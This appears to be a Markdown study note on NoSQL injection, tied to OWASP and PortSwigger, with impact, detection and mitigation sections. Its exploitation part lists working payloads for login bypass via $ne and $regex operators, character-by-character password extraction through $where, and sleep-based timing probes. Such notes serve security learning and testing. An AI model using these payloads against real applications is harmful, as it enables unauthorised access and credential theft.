 # NoSQL  

---

## Metadata  
- **OWASP Category (2021):** A03 Injection  
- **PortSwigger Link:** [NoSQL Injection | Web Security Academy](https://portswigger.net/web-security/nosql-injection)  

---

- **Sub-Topics:**  
  - Syntax Injection in MongoDB  
  - Operator Injection (e.g., `$ne`, `$gt`, `$regex`)  
  - Timing-based NoSQL injection  

---

## 💡 Concept  
- **What is it?**  
> - Interfering with the queries that an application makes to a NoSQL database  

- **Impact:**  
> - **Confidentiality:** Leak sensitive data (user records, tokens).  
> - **Integrity:** Modify or delete content.  
> - **Availability:** Denial of service via heavy `$where` queries or sleeps.  
> - **Advancement:** Potential escalation to server compromise if combined with unsafe eval or code execution features.  

---

## 🛠 Exploitation Notes  
- **Where to test:**  
> - Login forms, search filters, JSON APIs  
> - URL query strings and parameters (`?user=...`)  
> - HTTP request bodies (especially JSON)  

- **Payloads**  

**1. Syntax Injection**  
> - Fuzz strings to break syntax:  
>   ```
>   "}'" ({}) $foo || 1==1
>   ```  
> - Boolean logic test:  
>   ```
>   1 || 1==1
>   ```  
> - Detection by observing error messages or conditional changes  

**2. Operator Injection**  
> - Authentication bypass:  
>   ```json
>   { "username": {"$ne":""}, "password": {"$ne":""} }
>   ```  
> - Regex match:  
>   ```json
>   { "username": {"$regex":".*"}, "pwd":"" }
>   ```  
> - Injection via URL parameters:  
>   ```
>   username[$ne]=test&password[$ne]=test
>   ```  

**3. Data Extraction (Boolean / Conditional Logic)**  
> - Password length inference:  
>   ```
>   { "username":"admin", "pwd": {"$where":"this.password.length > 3"} }
>   ```  
> - Character-by-character brute force:  
>   ```
>   { "username":"admin", "pwd": {"$where":"this.password[0]=='a'"} }
>   ```  

**4. Timing / Blind Injection**  
> - Delays via `$where`:  
>   ```
>   { $where: "sleep(5000)" }
>   ```  

---

## 🔍 Detection  
- **How to identify in apps:**  
> - Inject syntax-breaking payloads (`'`, `"}`, `})`) to trigger errors.  
> - Use boolean logic tests to observe behavioral differences.  
> - Test regex and operator-based payloads for login bypass.  
> - Blind detection with `$where` + delay functions.  
> - Burp Suite Intruder  

---

## 🛡 Mitigation  
> - Sanitize and validate user input, using an allowlist of accepted characters  
> - Never let user input parameterize operators (instead of concatenating user input directly into queries)  
> - To prevent operator injection, apply an allowlist of accepted keys  

